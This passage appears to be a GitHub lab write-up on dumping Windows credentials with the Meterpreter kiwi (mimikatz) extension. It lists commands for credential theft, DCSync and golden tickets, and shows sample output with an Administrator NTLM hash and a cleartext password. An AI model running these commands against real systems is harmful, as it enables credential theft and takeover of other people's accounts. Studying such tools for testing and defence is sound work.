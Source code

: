 ```
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```
* now we can simply use those above commands to privesc our target machine
* here are some examples
`cheds_all`
```
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain    NTLM                              SHA1
--------       ------    ----                              ----
Administrator  haris-PC  cdf51b162460b7d5bc898f493751a0cc  dff1521f5f2d7436a632d26f079021e9541aba66

wdigest credentials
===================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   ejfnIWWDojfWEKM
HARIS-PC$      WORKGROUP  (null)

kerberos credentials
====================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
Administrator  haris-PC   (null)
haris-pc$      WORKGROUP  (null)
```
`cheds_msv`
```
meterpreter > creds_msv
[+] Running as SYSTEM                                                                                                                                        
[*] Retrieving msv credentials                                                                                                                               
msv credentials                                                                                                                                              
===============                                                                                                                                              
                                                                                                                                                             
```